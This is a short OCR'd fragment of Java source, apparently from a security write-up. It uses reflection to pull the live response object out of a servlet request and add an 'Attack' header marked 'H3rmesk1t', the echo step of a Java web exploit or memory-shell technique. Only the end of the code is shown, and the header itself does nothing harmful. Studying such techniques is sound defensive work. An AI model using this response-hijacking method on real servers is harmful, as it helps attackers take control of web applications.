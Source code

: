```java
                                Field field8 = request1.getClass().getDeclaredField("response");
                                field8.setAccessible(true);
                                Response response1 = (Response) field8.get(request1);
                                response1.addHeader("Attack", new String("H3rmesk1t".getBytes(), "UTF-8"));
                                System.out.println(response1);
                            }
                        } catch (Exception e) {
                            e.printStackTrace();
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
    }
}
```

![](img/10.png)

